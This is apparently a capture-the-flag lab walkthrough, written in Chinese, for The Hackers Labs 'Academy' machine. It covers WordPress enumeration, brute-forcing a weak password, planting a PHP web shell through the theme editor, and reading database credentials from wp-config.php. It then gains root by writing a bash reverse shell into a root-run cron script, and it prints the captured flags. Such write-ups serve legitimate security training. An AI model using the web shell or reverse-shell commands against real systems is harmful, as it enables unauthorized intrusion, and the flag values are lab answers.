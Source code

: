 # Academy

2025.03.08 https://thehackerslabs.com/academy/

[video](https://www.bilibili.com/video/BV1Ed9XY9E4i/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先将 academy.thl 添加到 hosts 文件中。

发现 wordpress : http://192.168.5.40/wordpress/ , wpscan 枚举到一个用户 dylan 和 一个插件 file-manager 6.5.1

简单爆破，发现用户的登陆密码: password1 进入到后台管理页面。点击左侧 Tools -> Theme File Editor -> 选择主题 twentytwentythree -> 编辑 patterns/hidden-404.php 植入 php shell：

```
<?php echo 1; system($_GET[1]);?>
```

进行验证:

```
curl -s 'http://192.168.5.40/wordpress/wp-content/themes/twentytwentythree/patterns/hidden-404.php?1=id'
1uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

可以执行，进行反弹 shell，先拿到了 wp-config.php 文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpressuser' );
define( 'DB_PASSWORD', 't9sH76gpQ82UFeZ3GXZS' );
define( 'DB_HOST', 'localhost' );
```

枚举后只发现一个文件 /opt/backup.py 。

使用 pspy64 发现以 root 身份每分钟执行一次 /opt/backup.sh， www-data 对 /opt 目录有写权限，可以直接进行新建 backup.sh ：

```
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /opt/backup.sh
chmod +x /opt/backup.sh
```

在 kali 上监听 8888，过了 1 分钟得到了 root 反弹的 shell：

拿到 2 个 flag:

```
root@debian:/home/debian# cat user.txt
f3e431cd1129e9879e482fcb2cc151e8

root@debian:~# cat root.txt
39531504f0ddd4778a542fae02fe4733
```
